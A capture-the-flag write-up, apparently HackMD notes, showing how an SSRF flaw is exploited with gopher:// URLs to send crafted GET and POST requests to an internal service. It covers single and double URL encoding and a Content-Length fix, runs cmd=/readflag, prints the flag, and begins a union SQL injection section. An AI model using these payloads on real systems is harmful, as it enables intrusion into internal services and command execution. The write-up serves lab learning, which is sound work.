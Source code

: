 curl -v 192.168.240.109:10081/?url=gopher://127.0.0.1:8000/  
![image](https://hackmd.io/_uploads/rJXtFxhOT.png)
200

/_GET /readflag HTTP/1.1
Host: 127.0.0.1
Content-Length: 14
Content-Type: application/x-www-form-urlencoded
Connection: close
http://192.168.240.109:10081/?url=gopher://127.0.0.1:8000%2F_GET%2520%2Freadflag%2520HTTP%2F1.1%250d%250aHost%3A%2520127.0.0.1%250d%250aContent-Length%3A%252014%250d%250aContent-Type%3A%2520application%2Fx-www-form-urlencoded%250d%250aConnection%3A%2520close%250d%250a%250d%250a

![image](https://hackmd.io/_uploads/ByPc6-nu6.png)
> 代表目錄錯誤

https://zhuanlan.zhihu.com/p/112055947

/_POST  HTTP/1.1
Host: 127.0.0.1
Content-Length: 15
Content-Type: application/x-www-form-urlencoded
Connection: close
cmd=/readflag

URL encode 1次:
http://192.168.240.109:10028/?url=gopher://127.0.0.1:8000/_POST%20/%20HTTP/1.1%0D%0AHost:127.0.0.1%0D%0AContent-Length:%2014%0D%0AContent-Type:%20application%2Fx-www-form-urlencoded%20Connection:%20close%0D%0A%0D%0Acmd=/readflag%0D%0A

Double encode (HTTP 400):
http://192.168.240.109:10066/?url=gopher://127.0.0.1:8000/_POST%2520/%2520HTTP/1.1%250D%250AHost:127.0.0.1%250D%250AContent-Length:%252014%250D%250AContent-Type:%2520application%2Fx-www-form-urlencoded%2520Connection:%2520close%250D%250A%250D%250Acmd=/readflag%250D%250A
> Double encode
> 空白encode兩次、\r\n也encode兩次
> 其他不用encode
> 
> **Content lengh 不對**

![image](https://hackmd.io/_uploads/S1zj4uTOa.png)
確認Content lengh長度

http://192.168.240.109:10066/?url=gopher://127.0.0.1:8000/_POST%2520/%2520HTTP/1.1%250D%250AHost:127.0.0.1%250D%250AContent-Length:%252013%250D%250AContent-Type:%2520application%2Fx-www-form-urlencoded%2520Connection:%2520close%250D%250A%250D%250Acmd=/readflag%250D%250A
![image](https://hackmd.io/_uploads/S1Eyr_aOT.png)

### Get FLAG
**FlAG: flag{e26ab8e5-24d1-4634-ae00-3dc982afde0c}**

## sqli union
![image](https://hackmd.io/_uploads/HyQuSzh_p.png)
http://192.168.240.109:10006/
![image](https://hackmd.io/_uploads/ByxFnHM3da.png)
